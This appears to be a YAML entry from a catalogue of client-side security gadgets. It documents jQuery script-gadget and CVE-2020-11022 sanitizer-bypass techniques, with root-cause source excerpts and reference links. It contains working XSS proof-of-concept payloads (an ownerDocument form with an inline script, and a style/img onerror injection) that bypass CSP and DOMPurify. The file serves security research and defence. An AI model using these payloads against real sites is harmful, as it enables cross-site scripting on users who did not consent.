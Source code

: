 ```yaml
---
description: jQuery is a fast, small, and feature-rich JavaScript library. It makes things like HTML document traversal and manipulation, event handling, animation, and Ajax much simpler with an easy-to-use API that works across a multitude of browsers. With a combination of versatility and extensibility, jQuery has changed the way that millions of people write JavaScript.
github: jquery/jquery
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - safari-browser
      - script-tag
      - any-attr
      - strict-dynamic-csp
      - before-func-call
    pocs:
      - description: This one works with every [jQuery](https://github.com/jquery/jquery) methods that manipulate HTML elements (see `$(".child" on the right)`) → `.after`, `.before`, `.append`, `.prepend`, `.html`, `.text`, `.replaceWith`, `.wrap`, `.wrapAll`, `.wrapInner`, etc.
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/jquery/3.7.1/jquery.js"></script>
          <script nonce="secret">
            $(document).ready(function(){
                $( ".container" ).append( $( ".child" ) );
            });
          </script>

          <!-- user input -->
          <form class="child"><input name="ownerDocument"/><script>alert(document.domain);</script></form>
          <p class="container"></p>
    links:
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/jquery.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/jquery_exploit.php
  ≤3.4.1:
    cve: CVE-2020-11022
    authors:
      - twitter:kinugawamasato
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - text-tags
      - any-attr
      - func-call-parameter
    pocs:
      - description: jQuery used to normalize HTML before inserting it into the DOM using the `jQuery.htmlPrefilter` function. This made it easy to bypass sanitizers like DOMPurify.
        code: |
          <script	src="https://code.jquery.com/jquery-3.4.1.js"></script>
          <script>
              $(document).ready(function() {
                  $(document.body).html(`
                      <!-- user input -->
                      <style><x x="><style/><img src=x onerror=alert(document.domain)>"></x></style>
                  `);
              });
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/jquery/jquery/blob/75f7e963708b60f37a42b777f35825d33c4f8e7a/src/manipulation.js#L403">https://github.com/jquery/jquery/blob/75f7e963708b60f37a42b777f35825d33c4f8e7a/src/manipulation.js#L403</a>

      ```javascript
      html: function( value ) {
        return access( this, function( value ) {
          var elem = this[ 0 ] || {},
            i = 0,
            l = this.length;

          if ( value === undefined && elem.nodeType === 1 ) {
            return elem.innerHTML;
          }

          // See if we can take a shortcut and just use innerHTML
          if ( typeof value === "string" && !rnoInnerhtml.test( value ) &&
            !wrapMap[ ( rtagName.exec( value ) || [ "", "" ] )[ 1 ].toLowerCase() ] ) {

            value = jQuery.htmlPrefilter( value );

            try {
              for ( ; i < l; i++ ) {
                elem = this[ i ] || {};

                // Remove element nodes and prevent memory leaks
                if ( elem.nodeType === 1 ) {
                  jQuery.cleanData( getAll( elem, false ) );
                  elem.innerHTML = value;
                }
              }
      ```

      Source: <a target="_blank" href="https://github.com/jquery/jquery/blob/75f7e963708b60f37a42b777f35825d33c4f8e7a/src/manipulation.js#L240">https://github.com/jquery/jquery/blob/75f7e963708b60f37a42b777f35825d33c4f8e7a/src/manipulation.js#L240</a>

      ```javascript
      htmlPrefilter: function( html ) {
        return html.replace( rxhtmlTag, "<$1></$2>" );
      },
      ```
    links:
      - https://blog.jquery.com/2020/04/10/jquery-3-5-0-released/
      - https://github.com/jquery/jquery/security/advisories/GHSA-gxr4-xjj5-5px2
      - https://github.com/jquery/jquery/commit/90fed4b453a5becdb7f173d9e3c1492390a1441f
      - https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#cve-2020-11022-jquery-lte-3.4.1
---
```

